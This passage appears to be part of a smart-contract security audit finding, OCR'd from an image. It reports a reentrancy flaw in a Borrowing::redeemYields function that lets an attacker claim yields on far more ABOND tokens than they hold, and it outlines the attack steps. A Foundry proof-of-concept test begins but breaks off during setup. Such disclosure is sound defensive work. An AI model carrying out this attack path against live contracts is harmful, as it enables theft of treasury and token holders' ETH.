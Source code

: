 ```solidity
            _fromState.ethBacked = 0;
        }
        return _fromState;
    }
```

### Internal pre-conditions

None

### External pre-conditions

None

### Attack Path

- Attacker acquires 100 `ABOND` and waits for it to accrue yields
- Attacker calls `Borrowing::redeemYields`
- Attacker reenters  `Borrowing::redeemYields` many times and redeems let's say 1000 `ABOND` (10 reenters)
- With the ETH (and possibly USDa) redeemed, the attacker buys in the last reentrant call the left 900 `ABOND` (the protocol has to burn 1000).
- The attacker earned the yields of buying and holding 1000 `ABOND` but initially he bought only 100. 

### Impact

Theft of `Treasury` and `ABOND` holders ETH.

### PoC

The following PoC struggles to make a perfect simulation of how the attacker would get the `ABOND` with real market prices and how Ionic will increase its exchange rate to get a higher cumulative rate. However, it demonstrates perfectly how the attack can be executed.

Add the following PoC and contracts to `test/foundry/Borrowing.t.sol`:
```solidity
function test_PoC_ReentrancyInRedeemYields() public {
        uint256 ETH = 1;
        uint24 ethPrice = 388345;
        uint8 strikePricePercent = uint8(IOptions.StrikePrice.FIVE);
        uint64 strikePrice = uint64(ethPrice + (ethPrice * ((strikePricePercent * 5) + 5)) / 100);
        uint256 amount = 10 ether;
        uint256 amountSent = 11 ether;

        uint128 usdtToDeposit = uint128(contractsB.cds.usdtLimit());
        uint256 liquidationAmount = usdtToDeposit / 2;

        // deposit in CDS so there is back funds for the USDa
        address cdsDepositor = makeAddr("depositor");

        {
            vm.startPrank(cdsDepositor);
            contractsB.usdt.mint(cdsDepositor, usdtToDeposit);
            contractsB.usdt.approve(address(contractsB.cds), usdtToDeposit);
            vm.deal(cdsDepositor, globalFee.nativeFee);
            contractsB.cds.deposit{value: globalFee.nativeFee}(
                usdtToDeposit, 0, true, uint128(liquidationAmount), 150000
            );
            
            vm.stopPrank();
        }

        {
            vm.startPrank(USER);
```